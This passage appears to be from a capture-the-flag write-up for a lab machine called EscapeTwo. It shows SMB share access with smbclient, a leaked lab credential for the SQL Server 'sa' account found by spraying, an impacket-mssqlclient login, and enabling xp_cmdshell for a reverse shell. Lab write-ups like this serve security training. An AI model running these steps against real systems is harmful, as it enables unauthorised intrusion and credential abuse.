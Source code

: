 ```bash
smbclient -U sequel.htb/rose "\\\\10.10.11.51\\Accounting Department"
```

![](/assets/EscapeTwo/EscapeTwo-AccountShares.png)

The file **accounts.xslx** contains different credentials:

![](/assets/EscapeTwo/EscapeTwo-Credentials.png)

By spraying this credentials we can notice how 

```text
sa:MSSQLP@ssw0rd!
```

Are valid credentials for connecting to the mssql database hosted on the machine.

![](/assets/EscapeTwo/EscapeTwo-ValidDBCreds.png)

By connecting to the database using:

```bash
impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
```

We can notice that we have the permission to enable xp_cmdshell, and therefore obtain a reverse shell.

![](/assets/EscapeTwo/EscapeTwo-Revshell.png)
